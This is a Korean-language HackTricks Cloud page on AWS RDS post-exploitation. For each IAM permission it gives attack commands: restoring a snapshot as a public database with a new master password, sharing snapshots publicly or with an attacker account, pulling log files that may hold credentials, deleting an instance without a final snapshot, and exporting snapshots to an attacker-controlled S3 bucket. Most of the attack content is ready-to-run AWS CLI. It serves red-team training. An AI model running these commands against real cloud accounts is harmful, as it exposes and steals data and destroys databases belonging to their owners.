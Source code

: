 # AWS - RDS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

공격자가 충분한 권한을 가지고 있다면, DB의 스냅샷을 생성하여 **DB를 공개적으로 접근 가능**하게 만들고, 그 스냅샷에서 공개적으로 접근 가능한 DB를 생성할 수 있습니다.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

이 권한을 가진 공격자는 **DB의 스냅샷을 생성**하고 이를 **공개적으로** **이용 가능**하게 만들 수 있습니다. 그런 다음, 그는 자신의 계정에서 해당 스냅샷으로 DB를 생성할 수 있습니다.

공격자가 **`rds:CreateDBSnapshot`** 권한이 없더라도, 여전히 **다른** 생성된 스냅샷을 **공개**로 만들 수 있습니다.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` 권한을 가진 공격자는 **RDS 인스턴스의 로그 파일의 일부를 다운로드**할 수 있습니다. 민감한 데이터나 접근 자격 증명이 우연히 기록된 경우, 공격자는 이 정보를 사용하여 권한을 상승시키거나 무단 작업을 수행할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**잠재적 영향**: 유출된 자격 증명을 사용하여 민감한 정보에 접근하거나 무단 작업을 수행할 수 있습니다.

### `rds:DeleteDBInstance`

이 권한을 가진 공격자는 **기존 RDS 인스턴스를 DoS할 수 있습니다**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**잠재적 영향**: 기존 RDS 인스턴스 삭제 및 데이터 손실 가능성.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: 테스트
{% endhint %}

이 권한을 가진 공격자는 **RDS 인스턴스 스냅샷을 S3 버킷으로 내보낼 수 있습니다**. 공격자가 대상 S3 버킷을 제어할 경우, 내보낸 스냅샷 내의 민감한 데이터에 접근할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**잠재적 영향**: 내보낸 스냅샷의 민감한 데이터에 대한 접근.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
